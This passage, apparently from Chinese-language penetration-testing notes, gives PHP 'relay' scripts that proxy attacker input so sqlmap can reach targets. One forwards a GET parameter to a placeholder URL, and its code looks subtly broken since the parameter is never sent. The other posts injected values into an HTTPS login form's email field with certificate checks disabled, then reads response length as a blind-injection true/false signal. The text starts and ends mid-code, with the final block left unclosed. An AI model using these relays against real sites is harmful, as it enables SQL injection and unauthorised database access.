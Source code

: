 ```python

if __name__ == "__main__":
    app.run()
```

**用PHP做中转注入**

```php
<?php
//先开启php.ini 中的extension=php_curl.dll
set_time_limit(1);
$curl = curl_init();//初始化curl
$id = $_GET['id'];
//替换id空格和=
$id = str_replace(" ","%20",$id);
$id = str_replace("=","%3D",$id);
$url = "http://xxx.com/aaa.php";
// 设置目标URL  
curl_setopt($curl, CURLOPT_URL, $url);     
// 设置header   
curl_setopt($curl, CURLOPT_HEADER, 0);    
// 设置cURL 参数，要求结果保存到字符串中还是输出到屏幕上。   
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 0);    
// 运行cURL，请求网页   
$data = curl_exec($curl);   
// 关闭URL请求   
curl_close($curl);
?>
```

**sqlmap不能忽略证书，跑不了https的网站** 

```php
<?php
$url = "https://x.x.x.x/aaa.php";
$sql = $_GET[arg];
$s = urlencode($sql);
$params = "email=$s&password=aa";

//写出到文件分析.
$fp=fopen('result.txt','a');
fwrite($fp,'Params:'.$params."\n");
fclose($fp);

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE); // https请求 不验证证书和hosts
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0');
curl_setopt($ch, CURLOPT_TIMEOUT, 15);
  
curl_setopt($ch, CURLOPT_POST, 1);    // post 提交方式
curl_setopt($ch, CURLOPT_POSTFIELDS, $params);
  
$output = curl_exec($ch);
curl_close($ch);
$a = strlen($output);

if($a==2846){
    echo "1";
}else{
    echo "2";
```